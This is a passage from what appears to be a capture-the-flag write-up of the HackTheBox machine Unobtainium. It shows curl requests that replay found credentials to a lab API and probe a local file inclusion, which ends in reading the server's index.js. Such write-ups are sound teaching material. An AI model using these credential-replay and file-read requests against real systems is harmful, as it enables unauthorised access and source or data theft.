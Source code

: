 Both of the last two include a username “felamos” and a password “Winter2021”. The `/todo` path also seems to be getting the contents of a file. I can recreate this last POST with `curl`:

```

oxdf@parrot$ curl -s http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "todo.txt"}' | jq
{
  "ok": true,
  "content": "1. Create administrator zone.\n2. Update node JS API Server.\n3. Add Login functionality.\n4. Complete Get Messages feature.\n5. Complete ToDo feature.\n6. Implement Google Cloud Storage function: https://cloud.google.com/storage/docs/json_api/v1\n7. Improve security\n"
}

```

## Shell as root in default

### LFI in todo

The last POST above sends `auth` and `filename` parameters. I want to test if there are limits on the file. I’ll go for `/etc/lab-release`:

```

oxdf@parrot$ curl http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "/etc/lsb-release"}'

```

It just hangs and doesn’t return anything. This LFI is limited to the local folder.

I’ll try to find the server-side JS for this app. `nmap` showed it was running NodeJS / Express framework. It took a few guesses (`server.js`, `main.js`, etc), but eventually I got it with `index.js`:

```

oxdf@parrot$ curl http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "index.js"}'
```